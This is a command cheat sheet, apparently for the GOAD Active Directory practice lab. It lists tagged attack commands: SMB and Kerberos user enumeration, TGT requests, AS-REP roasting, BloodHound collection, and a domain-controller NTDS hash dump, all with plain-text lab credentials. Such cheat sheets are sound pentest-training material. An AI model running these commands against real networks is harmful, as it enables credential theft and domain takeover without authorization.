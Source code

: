 # GOAD
% GOAD

## Enumerate the network
#platform/linux #target/remote #cat/POST1
```
cme smb 192.168.56.1/24
```

## Enumerate DC
#platform/linux #target/remote #cat/POST1
```
nslookup -type=srv _ldap._tcp.dc._msdcs.sevenkingdoms.local 192.168.56.10
```

## Get TGT for Arya Stark
#platform/linux #target/remote #cat/POST1
```
getTGT.py north.sevenkingdoms.local/arya.stark:Needle
```

## Check if anonymous logon is allowed on any DC
#platform/linux #target/remote #cat/POST2
```
cme smb 192.168.56.10-12 --users
```

## List if any shares are accessible with guest access
#platform/linux #target/remote #cat/POST2
```
cme smb 192.168.56.10-23 -u 'a' -p '' --shares
```

## User enumeration with Kerberos based on wordlist
#platform/linux #target/remote #cat/POST2
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain|essos.local>',userdb=raw_users.txt" <target_ip|192.168.56.12>
```

## Check all identified users for ASREProast
#platform/linux #target/remote #cat/POST2
```
impacket-GetNPUsers north.sevenkingdoms.local/ -no-pass -usersfile users.txt
```

## Run Bloodhound Python ingestor against KINGSLANDING with user brandon.stark
#platform/linux #target/remote #cat/POST3
```
bloodhound-python --zip -c All -d sevenkingdoms.local -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -dc kingslanding.sevenkingdoms.local
```

## Check all users in all domains as brandon.stark
#platform/linux #target/remote #cat/POST3
```
cme smb 192.168.56.10-12 -u brandon.stark -p 'iseedeadpeople' --users -d north.sevenkingdoms.local
```

## Check all users in all domains as khal.drogo
#platform/linux #target/remote #cat/POST3
```
cme smb 192.168.56.10-12 -u khal.drogo -p 'horse' --users -d essos.local
```


## Dumping DC NTDS database
#platform/linux #target/remote #cat/POST5
```
cme smb winterfell.north.sevenkingdoms.local -u vagrant -p 'vagrant' --ntds
```